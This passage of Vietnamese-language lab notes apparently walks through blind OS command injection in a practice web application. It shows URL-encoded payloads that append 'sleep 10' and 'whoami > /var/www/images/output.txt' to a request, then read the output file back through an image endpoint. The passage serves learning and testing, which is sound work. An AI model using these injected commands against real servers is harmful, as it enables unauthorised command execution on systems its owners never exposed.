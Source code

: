 - Thử sửa lại payload để check blind OS injection `sleep 10 #`
    
    ```bash
    +%26+sleep+10+%23
    ```
    
    ![image.png](/OS%20command%20injection/images/image%2014.png)
    
- Thử thực thi câu lệnh `whoami` sau đó truy xuất thông tin qua tệp `/var/www/images/output.txt` bằng ký tự `>`
    
    → `& whoami> /var/www/images/output.txt #`
    
    ```bash
    +%26+whoami>+/var/www/images/output.txt+%23
    ```
    
    ![image.png](/OS%20command%20injection/images/image%2015.png)
    
- Get lại tại `endpoint` **GET /image?filename=** nhưng thay bằng tệp output.txt
    
    ![image.png](/OS%20command%20injection/images/image%2016.png)
    